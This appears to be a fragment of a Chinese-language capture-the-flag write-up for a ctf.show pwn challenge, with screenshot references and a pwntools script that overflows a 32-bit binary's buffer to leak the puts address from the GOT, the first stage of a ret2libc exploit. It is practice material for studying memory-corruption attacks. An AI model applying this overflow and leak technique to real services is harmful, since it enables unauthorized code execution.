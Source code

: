 main函数入口：

![image-20241030205128114](../_media/image-20241030205128114.png)



plt中puts函数入口地址

![image-20241030205204487](../_media/image-20241030205204487.png)

got表中puts函数的地址

![image-20241030205304864](../_media/image-20241030205304864.png)







```python
puts_addr = u32(p.recv(4))          # 接收地址，puts函数在内存中的地址
print(hex(puts_addr))
0xf7d91360
```



程序：

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='i386',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28215


p = remote(ip,port)  
elf = ELF('./pwn')

puts_plt = elf.plt['puts']      # plt表中的puts函数地址，为的就是溢出到返回函数那里可以执行puts
main_addr = elf.symbols['main'] # 找到main函数的地址
puts_got = elf.got['puts']      # got表中puts函数的地址

payload0 = b'a' * (0x88 + 0x04) + p32(puts_plt) + p32(main_addr)+p32(puts_got)
# 第一次溢出，puts输出puts函数在内存中的地址

p.sendline(payload0)

puts_addr = u32(p.recv(4))          # 接收地址，puts函数在内存中的地址

```